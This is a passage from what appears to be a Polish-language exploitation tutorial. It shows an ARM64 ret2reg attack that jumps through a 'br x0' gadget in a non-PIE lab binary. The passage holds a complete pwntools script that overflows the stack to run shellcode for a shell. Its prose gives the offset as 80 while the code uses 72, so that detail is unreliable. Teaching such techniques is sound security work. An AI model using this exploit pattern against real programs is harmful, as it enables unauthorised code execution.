 
<figure><img src="../../.gitbook/assets/image (1225).png" alt="" width="563"><figcaption></figcaption></figure>

Można również znaleźć gadżet **`br x0`** w funkcji **`do_stuff`**:

<figure><img src="../../.gitbook/assets/image (1226).png" alt="" width="563"><figcaption></figcaption></figure>

Wykorzystamy ten gadżet, aby do niego przeskoczyć, ponieważ binarny plik jest skompilowany **BEZ PIE**. Korzystając z wzorca, można zauważyć, że **przesunięcie przepełnienia buforu wynosi 80**, więc exploit będzie:
```python
from pwn import *

p = process('./ret2x0')
elf = context.binary = ELF('./ret2x0')

stack_offset = 72
shellcode = asm(shellcraft.sh())
br_x0 = p64(0x4006a0) # Addr of: br x0;
payload = shellcode + b"A" * (stack_offset - len(shellcode)) + br_x0

p.sendline(payload)
p.interactive()
```
{% hint style="warning" %}